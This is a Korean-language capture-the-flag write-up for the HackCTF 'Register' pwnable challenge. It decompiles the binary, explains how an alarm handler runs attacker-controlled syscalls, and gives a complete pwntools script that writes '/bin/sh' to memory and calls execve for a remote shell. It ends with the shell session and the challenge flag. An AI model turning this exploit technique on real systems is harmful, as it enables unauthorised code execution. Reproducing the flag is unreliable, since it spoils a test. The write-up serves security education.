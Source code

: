 # Register

---

우선 `main()`을 보자.
```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  alarm(5u);
  setvbuf(stdout, 0LL, 2, 0LL);
  build();
}
```

5초마다 alarm을 보낸다. `build()`를 살펴보자.

```c
void __noreturn build()
{
  __int64 v0; // [rsp+0h] [rbp-40h]
  __int64 v1; // [rsp+8h] [rbp-38h]
  __int64 v2; // [rsp+10h] [rbp-30h]
  __int64 v3; // [rsp+18h] [rbp-28h]
  __int64 v4; // [rsp+20h] [rbp-20h]
  __int64 v5; // [rsp+28h] [rbp-18h]
  __int64 v6; // [rsp+30h] [rbp-10h]
  unsigned __int64 v7; // [rsp+38h] [rbp-8h]

  v7 = __readfsqword(0x28u);
  signal(14, (__sighandler_t)handler);
  while ( 1 )
  {
    do
    {
      get_obj(&v0);
      obj = v0;
      qword_6010A8 = v1;
      qword_6010B0 = v2;
      qword_6010B8 = v3;
      qword_6010C0 = v4;
      qword_6010C8 = v5;
      qword_6010D0 = v6;
    }
    while ( (unsigned int)validate_syscall_obj(v0) );
    raise(14);
  }
}
```

이 함수 외에도 다른 많은 함수들이 있지만 동작은 간단하다.

`signal()`에 의해서 SYSALARM이 호출될 때 마다 `handler()`가 실행된다. 그리고 레지스터의 값을 받아서 syscall을 실행한다.

때문에 5초마다 실행되는 SYSALARM에 맞춰서 레지스터의 값을 잘 조작하여 syscall을 이용하여 execve('/bin/sh',0,0)을 실행시키면 되는 간단한 문제다.

다음과 같이 익스할 것이다.

(1) sys\_read를 통해서 data영역에 "/bin/sh\x00'을 쓴다. <br>
(2) sys_execve를 통해서 쉘을 실행시킨다.

다음과 같이 익스코드를 짤 수 있었다.

```python
from pwn import*

#p=process('./register')
p=remote('ctf.j0n9hyun.xyz', 3026)

data=6295656

p.recvuntil('RAX: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('RDI: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('RSI: ')
p.sendline('6295656')
sleep(0.01)
p.recvuntil('RDX: ')
p.sendline('8')
sleep(0.01)
p.recvuntil('RCX: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('R8: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('R9: ')
p.sendline('0')
sleep(0.01)

p.send('/bin/sh\x00')


p.recvuntil('RAX: ')
p.sendline('59')
sleep(0.01)
p.recvuntil('RDI: ')
p.sendline('6295656')
sleep(0.01)
p.recvuntil('RSI: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('RDX: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('RCX: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('R8: ')
p.sendline('0')
sleep(0.01)
p.recvuntil('R9: ')
p.sendline('0')

p.interactive()
```

중간에 sleep을 넣은 것은 로컬에서는 상관없었지만 서버에서는 주고받는 인자값의 순서가 뒤엉켜서 원하는대로 작동되지 않을 수도 있기 때문이다.

다음 파이썬 코드를 실행시키고 나서 입력까지 5초정도를 기다려주어야 한다. 5초 이후에 SYSALARM이 호출되기 때문이다.

flag는 다음과 같다. 

```bash
sjy0175@sjy0175-VirtualBox:~/Desktop/HackCTF/Pwnable/27.Register$ python ex.py
[+] Opening connection to ctf.j0n9hyun.xyz on port 3026: Done
[*] Switching to interactive mode
RAX: $ whoami
attack
$ cat flag
HackCTF{6316964770251056468501091137477179868692}
```


**flag: HackCTF{6316964770251056468501091137477179868692}**
